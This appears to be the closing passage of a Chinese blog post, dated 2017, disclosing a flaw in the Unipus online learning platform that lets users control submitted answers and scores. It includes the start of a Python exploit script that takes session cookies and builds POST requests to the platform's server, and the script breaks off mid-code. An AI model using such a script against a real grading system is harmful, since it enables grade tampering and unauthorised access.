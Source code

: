 ![](https://raw.githubusercontent.com/smilelc3/blog/main/images/视听说在线平台（Unipus）网页漏洞的提交/unipus_4.png)

**而且更可能的情况是，通过对提交的答案的控制，亦可以控制分数使其为代码执行者所想的分数。**

希望学校能稍稍重视该问题，也是我的一点荣幸。

2017-9-14

---

*备注：以下代码均由本人进行开发，并未对外进行公布和流传，仅仅做实验性质。如果需要，可立即对代码源文件进行删除*

```python
# main.py
from ans_deal import work
import requests
map= [
    [0, 0, 0, 0, 0, 0, 0],
    [0, 0, 0, 0, 0, 0, 0],
    [0, 0, 0, 0, 0, 0, 0],
    [0, 0, 0, 0, 0, 0, 0],
    [0, 0, 0, 0, 0, 0, 0],

    [1, 1, 1, 1, 0, 1, 1],
    [1, 1, 1, 1, 1, 1, 1],
    [1, 1, 1, 1, 0, 1, 1],
    [1, 1, 1, 0, 1, 0, 1],
    [0, 0, 0, 0, 0, 0, 0],

    [1, 1, 1, 1, 1, 1, 1],
    [1, 1, 1, 1, 1, 1, 1],
    [1, 1, 1, 1, 1, 1, 1],
    [1, 1, 1, 1, 1, 1, 1],
    [1, 1, 1, 1, 1, 1, 1],
    [1, 1, 1, 1, 1, 1, 0],

    [0, 0, 0, 0, 0, 0, 0],
    [0, 0, 0, 0, 0, 0, 0],

    [0, 0, 0, 0, 0, 0, 0],
    [0, 0, 0, 0, 0, 0, 0],
    [0, 0, 0, 0, 0, 0, 0],
    [0, 0, 0, 0, 0, 0, 0],
    [0, 0, 0, 0, 0, 0, 0],
]
cookies = input()
post_headers = {
    'Host': '192.168.115.248:81',
    'Connection': 'keep-alive',
    'Pragma': 'no-cache',
    'Cache-Control': 'no-cache',
    'Upgrade-Insecure-Requests': '1',
```